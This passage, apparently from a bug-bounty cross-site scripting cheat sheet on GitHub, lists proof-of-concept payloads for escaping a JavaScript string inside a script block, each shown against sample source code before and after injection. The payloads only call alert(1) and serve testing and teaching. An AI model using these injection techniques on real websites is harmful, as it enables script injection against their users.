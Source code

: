 ```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

- After input the payload

```html
<script>
    var sitekey = '</script><script>alert(1)</script>';
</script>
```

## **XSS Cheat Sheet (Advanced)**

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md#xss-cheat-sheet-advanced)

7. Use when input lands in a script block, inside a string delimited value.

```html
'-alert(1)-'
'/alert(1)//
```

- Example source code

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

- After input the payload

```html
<script>
    var sitekey = ''-alert(1)-'';
</script>
```

8. Same like Number 7. But inside a string delimited value but quotes are escaped by a backslash.

```html
\'alert(1)//
```

- Example source code

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

- If we input payload '-alert(1)-' it will be like this

```html
<script>
    var sitekey = '\'-alert(1)-\'';
</script>
```
